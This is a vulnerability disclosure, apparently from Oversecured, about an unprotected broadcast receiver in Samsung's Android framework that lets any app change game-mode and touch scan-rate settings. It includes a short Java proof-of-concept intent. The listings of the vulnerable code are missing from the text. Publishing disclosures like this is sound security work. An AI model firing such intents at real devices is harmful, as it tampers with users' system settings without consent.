


# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Android Framework</td>
    </tr>
    <tr>
        <td>Library path</td>
        <td><code>/system/framework/services.jar</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.05</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.01.04</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$330</td>
    </tr>
</table>

# Description

Oversecured found a dynamic registration of an unprotected broadcast receiver in the file `com/samsung/android/hardware/secinputdev/SemInputDeviceManagerService.java`:


This is the body of the method:


When the receiver gets the intent with the `com.samsung.android.game.gos.action.TSP` action, it sets `set_game_mode` and `set_scan_rate` values in the settings, thus changing the game mode and scan rate.

**Proof of Concept**

```java
Intent i = new Intent("com.samsung.android.game.gos.action.TSP");
i.putExtra("set_game_mode", "1");
i.putExtra("set_scan_rate", "1");
sendBroadcast(i);
```

## References

- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)
